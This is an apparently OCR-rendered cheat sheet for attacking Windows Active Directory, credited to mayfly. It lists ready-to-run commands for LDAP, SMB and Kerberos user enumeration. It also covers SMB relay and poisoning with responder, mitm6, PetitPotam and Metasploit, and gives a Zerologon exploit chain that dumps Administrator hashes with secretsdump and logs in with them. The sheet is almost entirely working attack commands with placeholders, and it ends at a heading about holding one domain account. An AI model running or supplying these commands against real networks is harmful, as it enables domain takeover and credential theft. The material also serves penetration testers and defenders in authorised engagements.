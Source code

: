 ## Enumerate ldap

### nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>

### ldapsearch -x -h <ip> -s base  

## Find user list

### enum4linux -U <dc-ip> | grep 'user:'

### crackmapexec smb <ip> -u <user> -p '<password>' --users 

### OSINT - enumerate username on internet

- nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip> 

## relay/poisoning

### find smb not signed

- nmap -Pn -sS -T4 --open --script smb-security-mode -p445 ADDRESS/MASK
- use exploit/windows/smb/smb_relay
- cme smb $hosts --gen-relay-list relay.txt

### PetitPotam.py  -d <domain> <listener_ip> <target_ip>

### responder -i eth0

### mitm6 -d <domain>

## zerologon

### python3 cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <ip>
secretsdump.py <DOMAIN>/<MACHINE_BIOS_NAME>\$@<IP> -no-pass -just-dc-user "Administrator" 
secretsdump.py -hashes :<HASH_admin> <DOMAIN>/Administrator@<IP>

- python3 restorepassword.py -target-ip <IP> <DOMAIN>/<MACHINE_BIOS_NAME>@<MACHINE_BIOS_NAME> -hexpass <HEXPASS>

## mayfly (@M4yFly)

## Got one account on the domain
